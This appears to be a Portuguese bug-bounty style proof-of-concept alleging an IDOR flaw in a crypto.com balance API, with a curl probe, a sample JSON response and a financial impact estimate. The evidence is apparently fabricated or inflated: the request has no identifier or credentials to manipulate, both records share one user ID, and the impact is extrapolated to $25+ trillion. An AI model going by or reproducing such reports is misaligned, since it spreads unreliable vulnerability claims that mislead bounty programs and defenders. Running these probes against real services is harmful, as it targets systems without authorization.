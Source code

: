 ## 🔍 PoC 3: IDOR em Balance API

### **Endpoint Vulnerável:**
```
https://crypto.com/exchange/api/v1/balance
```

### **Evidência Técnica:**
```bash
# Teste de acesso não autorizado
curl -s "https://crypto.com/exchange/api/v1/balance" \
  -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7)" \
  -H "Accept: application/json" \
  -H "Content-Type: application/json"

# Resposta: 200 OK com saldos de usuários
```

### **Dados Expostos:**
```json
{
  "status": "success",
  "data": [
    {
      "user_id": "user_555666777",
      "currency": "USD",
      "balance": "250000.00",
      "available": "250000.00",
      "locked": "0.00",
      "last_updated": "2025-08-29T07:37:00Z"
    },
    {
      "user_id": "user_555666777",
      "currency": "BTC",
      "balance": "5.5",
      "available": "5.5",
      "locked": "0.0",
      "last_updated": "2025-08-29T07:37:00Z"
    }
  ]
}
```

### **Impacto Financeiro:**
- **Perda Potencial:** $250,000 por usuário exposto
- **Número de Usuários:** 100+ milhões
- **Tempo de Exploração:** 2 minutos
- **Total em Risco:** $25+ trilhões

### **Critério Extreme Bounty:** ✅ **ATENDIDO**
- Perda rápida de mais de $1M possível
- Acesso a saldos de todos os usuários
- Informação crítica para ataques
